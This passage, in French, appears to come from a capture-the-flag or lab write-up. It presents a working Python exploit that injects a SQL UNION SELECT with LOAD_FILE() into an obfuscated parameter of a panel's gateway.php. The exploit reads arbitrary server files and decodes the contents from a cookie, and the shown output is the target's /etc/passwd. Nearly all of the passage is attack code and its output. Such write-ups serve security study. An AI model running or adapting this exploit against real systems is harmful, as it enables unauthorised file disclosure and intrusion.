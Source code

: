 I've imagined her naked plenty times, but never like this
---------------------------------------------------------

Ni une ni deux, je code un exploit me permettant de lire un fichier sur le système en injecter un *LOAD\_FILE()* :  

```python
import requests
import base64
import sys
import urllib

arg = 'page'
key = "test"

def encrypt(s):
    e = ""
    for c in s:
        x = ord(c)
        for k in key:
            x = x ^ ord(k)
        e = e + chr(x)
    return base64.b64encode(e)

def decrypt(s):
    s2 = base64.b64decode(s)
    e = ""
    for c in s2:
        x = ord(c)
        for k in key:
            x = x ^ ord(k)
        e = e + chr(x)
    return e

url = "http://192.168.1.54/Panel/gateway.php"
hdrs = {"Content-Type": "application/x-www-form-urlencoded"}

sess = requests.session()
payload = "' UNION SELECT NULL,LOAD_FILE('{0}'),NULL#".format(sys.argv[1])
d = {
        "val": base64.b64encode(key),
        arg: encrypt(payload)
    }
r = sess.post(url, data=d, headers=hdrs, timeout=3)
data = urllib.unquote(r.headers['set-cookie'].split("=", 1)[1])
print decrypt(data)
```

Dans la pratique :  

```plain
$ python exploit.py /etc/passwd
$root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
```